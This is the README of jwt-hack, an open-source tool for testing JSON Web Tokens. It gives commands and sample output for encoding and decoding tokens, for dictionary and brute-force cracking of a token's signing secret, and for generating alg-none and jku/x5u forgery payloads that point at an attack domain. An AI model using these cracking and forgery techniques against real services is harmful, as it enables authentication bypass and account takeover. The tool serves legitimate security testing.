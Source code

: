 <div align="center">
  <picture>
    <img alt="JWT-HACK Logo" src="./images/logo.png" width="260px;">
  </picture>
  <p>Let's hack JWT(JSON Web Token)</p>
</div>

<p align="center">
  <a href="https://github.com/hahwul/jwt-hack/releases/latest"><img src="https://img.shields.io/github/v/release/hahwul/jwt-hack?style=for-the-badge&logoColor=%23000000&label=jwt-hack&labelColor=%23000000&color=%23000000"></a>
  <a href="https://app.codecov.io/gh/hahwul/jwt-hack"><img src="https://img.shields.io/codecov/c/gh/hahwul/jwt-hack?style=for-the-badge&logoColor=%23000000&labelColor=%23000000&color=%23000000"></a>
  <a href="https://github.com/hahwul/jwt-hack/blob/main/CONTRIBUTING.md"><img src="https://img.shields.io/badge/CONTRIBUTIONS-WELCOME-000000?style=for-the-badge&labelColor=000000"></a>
  <a href="https://rust-lang.org"><img src="https://img.shields.io/badge/Rust-000000?style=for-the-badge&logo=rust&logoColor=white"></a>
</p>

JWT-Hack is a tool for testing and analyzing JSON Web Tokens. This is the Rust implementation (v2.0.0) of the original Go-based JWT-Hack tool, providing better performance and additional features.

## Installation

### From source
```bash
# Clone the repository
git clone https://github.com/hahwul/jwt-hack
cd jwt-hack/rust-jwt-hack

# Build and install
cargo build --release
cargo install --path .
```

### Cargo
```bash
cargo install jwt-hack
```

### Future installation methods
Coming soon:
- Homebrew
- Snapcraft

## Usage
```
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
Hack the JWT(JSON Web Token) | by @hahwul | v2.0.0

Usage:
  jwt-hack [command]

Available Commands:
  crack       Cracking JWT Token
  decode      Decode JWT to JSON
  encode      Encode json to JWT
  help        Help about any command
  payload     Generate JWT Attack payloads
  version     Show version

Flags:
  -h, --help   help for jwt-hack
```

## Encode mode (JSON to JWT)
```
▶ jwt-hack encode '{"json":"format"}' --secret={YOUR_SECRET}
```

e.g
```
▶ jwt-hack encode '{"test":"1234"}' --secret=asdf
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Encoded result                                algorithm=HS256
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXN0IjoiMTIzNCJ9.JOL1SYkRZYUz9GVny-DgoDj60C0RLz929h1_fFcpqQA
```

## Decode mode (JWT to JSON)
```
▶ jwt-hack decode {JWT_CODE}
```

e.g
```
▶ jwt-hack decode eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Decoded data(claims)                          header="{\"alg\":\"HS256\",\"typ\":\"JWT\"}" method="&{HS256 5}"
{
  "iat": 1516239022,
  "name": "John Doe",
  "sub": "1234567890"
}
```

## Crack mode (Dictionary attack / BruteForce)
```
▶ jwt-hack crack -w {WORDLIST} {JWT_CODE}
```

e.g
```
▶ jwt-hack crack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.5mhBHqs5_DTLdINd9p5m7ZJ6XD0Xc55kIaCRY5r6HRA -w samples/wordlist.txt

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
[*] Start dict cracking mode
INFO[0000] Loaded words (remove duplicated)              size=16
INFO[0000] Invalid signature                             word=fas
INFO[0000] Invalid signature                             word=asd
INFO[0000] Invalid signature                             word=1234
INFO[0000] Invalid signature                             word=efq
INFO[0000] Invalid signature                             word=asdf
INFO[0000] Invalid signature                             word=2q
INFO[0000] Found! Token signature secret is test         Signature=Verified Word=test
INFO[0000] Invalid signature                             word=dfas
INFO[0000] Invalid signature                             word=ga
INFO[0000] Invalid signature                             word=f
INFO[0000] Invalid signature                             word=ds
INFO[0000] Invalid signature                             word=sad
INFO[0000] Invalid signature                             word=qsf
...
INFO[0000] Invalid signature                             word=password
INFO[0000] Invalid signature                             word=error
INFO[0000] Invalid signature                             word=calendar
[+] Found! JWT signature secret: test
[+] Finish crack mode
```

## Bruteforce mode
```
▶ jwt-hack crack -m brute {JWT_CODE} --max=4
```

## Payload mode (Alg none attack, etc.)
```
▶ jwt-hack payload {JWT_CODE}
```

For jku and x5u (what is? [readme this slide](https://www.slideshare.net/snyff/jwt-jku-x5u)):
* `--jwk-attack` : An attack payload domain for jku&x5u (e.g hahwul.com)
* `--jwk-trust` : A trusted domain for jku&x5u (e.g google.com)
* `--jwk-protocol` : jku&x5u protocol (http/https) (default "https")

e.g
```
▶ jwt-hack payload eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.5m9zFPGPU0LMdTTLCR7jXMP8357nNAa0z8ABJJE3r3c --jwk-attack attack.hahwul.com --jwk-protocol https --jwk-trust trust.hahwul.com

INFO[0000] Generate none payload                         header="{\"alg\":\"none\",\"typ\":\"JWT\"}" payload=none
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

...
```

## Performance Improvements in v2.0.0 (Rust version)

The Rust implementation offers:
1. **Faster execution** - Particularly noticeable in crack mode with large wordlists
2. **More memory efficient** - Uses less memory for the same operations
3. **Better concurrency** - Utilizes Rust's concurrency model for optimal performance
4. **Improved error handling** - More robust error handling with detailed messages

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

## License

MIT License
